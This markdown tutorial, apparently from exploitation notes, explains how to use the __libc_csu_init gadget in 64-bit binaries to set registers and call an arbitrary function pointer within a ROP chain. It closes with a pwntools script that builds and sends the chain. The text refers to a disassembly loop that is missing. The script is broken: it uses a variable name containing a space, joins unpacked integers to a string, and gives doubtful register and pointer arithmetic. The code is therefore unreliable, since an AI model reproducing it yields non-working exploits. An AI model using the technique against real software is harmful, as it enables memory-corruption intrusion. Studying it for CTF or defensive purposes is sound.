

# **libc_csu_init**

## **Call Arbitrary Functions (with up to three arguments)**

Sometimes when building ROP chains, we need to set argument registers for a function call. Unfortunately, finding individual gadgets to set all of these registers without interfering with anything else is

1. Time consuming
2. Often requires creative gadget juggling when you can't just pop `rsi`/`rdi`/`rdx`/etc.
3. Setting each register individually takes extra space which we may not have

Luckily for us, every **<u>64 bit</u>** binary will include a function called "libc_csu_init" (32 bit binaries include a different version of this function as well, but it doesn't have the same affect. The calling convention for 32 bit binaries puts all of the arguments on the stack, so we don't need to worry about special gadgets like this on). Near the bottom of this function, we can see the loop shown below:



We can quickly call an arbitrary function pointer with arguments of our choosing by setting the following registers:

- r13: argument 1
- r14: argument 2
- r15: argument 3
- r12/rbx: function pointer
- rbx/rbp: number of iterations to loop for

Setting these registers is trivial though, as we can simply use the same function. Notice the block which is called after the loop completes - it will pop every argument we need directly off the stack and into the appropriate register. See the example code below for a pwntools implimentation

```python
from pwn import *

p = process('path/to/binary')
binary base = 0x00400000 # base address of program (not libc)
num_calls = 1 # number of times we want to call our function
rop = ''

# return of libc_csu_init (popping arguments)
rop += binary_base + 0x69c # offset may vary based on libc version

# set up arguments
rop += p64(0xbadc0de + num_calls) # rbp
rop += p64(0xbadc0de) # rbx (arbitrary string with no null bytes)
rop += p64(0xdeadbeef - (0xbadc0de * 8)) # function pointer
rop += 'A' * 8 # arg 1
rop += 'B' * 8 # arg 2
rop += 'C' * 8 # arg 3

# call our function pointer with desired arguments
rop += binary_base + 0x680 # offset may vary based on libc version

p.sendline(rop)

```


